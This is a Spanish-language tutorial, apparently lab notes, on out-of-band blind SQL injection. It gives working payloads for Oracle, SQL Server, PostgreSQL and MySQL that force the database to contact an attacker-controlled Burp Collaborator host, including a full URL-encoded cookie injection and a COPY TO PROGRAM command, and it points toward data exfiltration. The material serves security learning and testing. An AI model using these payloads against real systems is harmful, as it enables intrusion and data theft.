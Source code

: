 ### **Blind SQL Injection con Interacción Out-of-Band (OOB)**  

El ataque **Blind SQL Injection con interacción Out-of-Band (OOB)** se basa en provocar una interacción externa con un servidor controlado por el atacante (por ejemplo, un servidor DNS o HTTP), para verificar si la inyección es exitosa. A diferencia de los ataques **Boolean-Based** o **Time-Based**, en los cuales inferimos la presencia de vulnerabilidades a través de cambios en la respuesta o el tiempo de ejecución, en este caso **forzamos a la base de datos a realizar una solicitud externa**.  

Esto es útil en situaciones donde:  
✅ No hay mensajes de error visibles.  
✅ No podemos inferir datos por diferencias en la respuesta o tiempo.  
✅ La base de datos permite realizar conexiones a servidores externos.  

---

## **1. Identificación del motor de base de datos**  

Cada motor de base de datos tiene su propia manera de interactuar con el sistema operativo y realizar peticiones externas. Los siguientes payloads permiten comprobar si la base de datos es vulnerable a este tipo de ataques:  

| **Base de Datos** | **Payload** |  
|------------------|------------|  
| **Oracle** (No parcheado) | `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual` |  
| **Oracle** (Parcheado, requiere privilegios elevados) | `SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')` |  
| **Microsoft SQL Server** | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'` |  
| **PostgreSQL** | `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'` |  
| **MySQL** (Solo Windows) | `LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')` |  
| **MySQL** (Solo Windows) | `SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` |  

Si la base de datos ejecuta uno de estos payloads y **observamos una interacción en nuestro servidor**, significa que el sistema es vulnerable.  

---

## **2. Configuración del servidor para recibir interacciones**  

Para comprobar si la inyección tiene éxito, necesitamos un servidor que registre las solicitudes recibidas. Podemos usar:  

- **Burp Collaborator** (recomendado): Interfaz fácil de usar para capturar solicitudes DNS y HTTP.  
- **Dnslog.cn** (alternativa online para capturar consultas DNS).  
- **Un servidor propio** con `tcpdump` o `Wireshark`.  

Si usamos Burp Suite, primero abrimos **Burp Collaborator Client** y obtenemos un subdominio como:  

```
wii7i5cutyjnasvbesehqvubv21tpmdb.oastify.com
```  

---

## **3. Ejemplo de prueba con Oracle**  

Si sospechamos que la base de datos es **Oracle**, podemos probar el siguiente payload en una cookie vulnerable:  

```
Cookie: TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//wii7i5cutyjnasvbesehqvubv21tpmdb.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--; session=TbYarrRzAFE01h8OjUj2TOhEamaTI4Ri
```  

Si la aplicación es vulnerable, **veremos la solicitud en Burp Collaborator**, confirmando que la inyección es exitosa.  

---

## **4. Explicación del payload**  

```
UNION SELECT EXTRACTVALUE(xmltype('<%3fxml version="1.0" encoding="UTF-8"%3f>
<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http%3a//wii7i5cutyjnasvbesehqvubv21tpmdb.oastify.com/"> %remote;]>'),'/l') FROM dual
```  

### **📌 Desglose del payload:**  

1. **`EXTRACTVALUE(xmltype(...), '/l')`**  
   - En Oracle, esta función se usa para procesar XML.  
   - Insertamos un XML malicioso que contiene una entidad externa.  

2. **`<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>`**  
   - Esto define una **entidad externa** (`%remote`) que carga un recurso desde un servidor externo.  
   - Cuando Oracle evalúa el XML, intenta cargar la URL en `SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"`.  

3. **`FROM dual`**  
   - `dual` es una tabla especial en Oracle usada para ejecutar consultas que no requieren datos de usuario.  

### **🔎 ¿Qué sucede al ejecutar este payload?**  

- Si Oracle **procesa la entidad externa**, intentará conectarse al servidor **`wii7i5cutyjnasvbesehqvubv21tpmdb.oastify.com`**.  
- En Burp Collaborator, veremos una solicitud entrante.  
- Esto confirma que **la inyección es posible** y que podemos seguir con la exfiltración de datos.  

---

## **5. Variaciones para otros motores de base de datos**  

Si el payload anterior no funciona, probamos otros dependiendo del motor:  

### **SQL Server**  

```
exec master..xp_dirtree '//wii7i5cutyjnasvbesehqvubv21tpmdb.oastify.com/a'
```  

- Ejecuta la función `xp_dirtree`, que lista directorios remotos.  
- En sistemas vulnerables, se genera una solicitud SMB al servidor del atacante.  

---

### **PostgreSQL**  

```
copy (SELECT '') to program 'nslookup wii7i5cutyjnasvbesehqvubv21tpmdb.oastify.com'
```  

- Ejecuta el comando `nslookup` en el sistema operativo.  
- Si la base de datos tiene permisos suficientes, intentará resolver el dominio, generando tráfico DNS hacia nuestro servidor.  

---

### **MySQL (Windows)**  

```
LOAD_FILE('\\\\wii7i5cutyjnasvbesehqvubv21tpmdb.oastify.com\\a')
```  

```
SELECT ... INTO OUTFILE '\\\\wii7i5cutyjnasvbesehqvubv21tpmdb.oastify.com\a'
```  

- Solo funciona en **Windows** si MySQL tiene permisos para acceder a archivos.  
- Intenta leer o escribir archivos en un recurso compartido SMB.  

---

## **6. Conclusión**  

El **Blind SQL Injection Out-of-Band** es un método poderoso para detectar vulnerabilidades cuando no hay mensajes de error ni diferencias en los tiempos de respuesta.  

### **📌 Resumen del proceso:**  

✅ **Paso 1:** Intentamos ejecutar payloads específicos para cada base de datos.  
✅ **Paso 2:** Capturamos interacciones en **Burp Collaborator** o un servidor DNS controlado.  
✅ **Paso 3:** Si hay tráfico de red, confirmamos que la inyección es posible.  
✅ **Paso 4:** Procedemos con la **exfiltración de datos** utilizando técnicas similares.  

Este método es **muy útil en entornos restringidos**, ya que evita depender de respuestas visibles o tiempos de ejecución. Una vez confirmada la vulnerabilidad, podemos avanzar a la **exfiltración completa** de datos usando el mismo canal de comunicación. 🚀
